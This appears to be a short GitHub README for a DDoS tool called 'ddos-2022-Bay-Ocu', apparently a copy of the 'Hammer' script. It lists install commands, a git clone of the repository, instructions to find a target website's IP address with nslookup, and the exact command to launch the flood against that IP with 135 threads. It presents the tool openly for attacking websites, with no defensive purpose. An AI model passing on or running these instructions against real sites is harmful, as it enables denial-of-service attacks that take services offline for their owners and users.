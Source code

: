 # ddos-2022-Bay-Ocu
# $ apt update<br>
# $ apt upgrade<br>
# $ apt install python<br>
# $ apt install git<br>
# $ apt install dnsutils<br>
# $ git clone https://github.com/BayYocu1/ddos-2022-Bay-Ocu.git

Hammer need the <b>Name Server</b> of a website which you want to attack...<br>
To get the Name Server...just type<br>
$ <b>nslookup example.com<b><br>
Note the IP Address of that Website<br>

then <br>
# $ cd Hammer<br>
# $ python BAY.py -s [ip Address] -t 135<br>
example:<br>
# $ python BAY.py -s 123.45.67.89 -t 135<br>

